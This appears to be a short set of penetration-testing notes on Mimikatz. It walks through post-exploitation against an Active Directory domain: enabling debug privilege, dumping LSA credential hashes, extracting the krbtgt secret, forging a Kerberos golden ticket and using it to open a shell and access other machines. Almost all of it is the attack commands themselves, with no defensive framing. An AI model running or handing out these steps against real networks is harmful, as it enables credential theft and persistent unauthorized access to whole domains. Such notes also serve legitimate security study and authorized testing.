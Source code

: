 ```yaml
---
description: >-
  Mimikatz is a very popular and powerful post-exploitation tool mainly used for
  dumping user credentials inside of a active directory network
---
```


# Mimiktaz

```
mimikaz.exe
```

Ensure privileges are set

```
privilege::debug
```

dump the hashes

```
lsadump::lsa /patch
```

Crack the hashes !\
\


### Kerberos Golden ticket

```
lsadump::lsa /inject /name:krbtgt
```

Interesting stuff:

<figure><img src="../../.gitbook/assets/Yzq71aI.png" alt=""><figcaption></figcaption></figure>

Create the ticket

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Use the ticket

```
misc::cmd
```

Access Other machines

```
dir \\<MACHINE>\
```

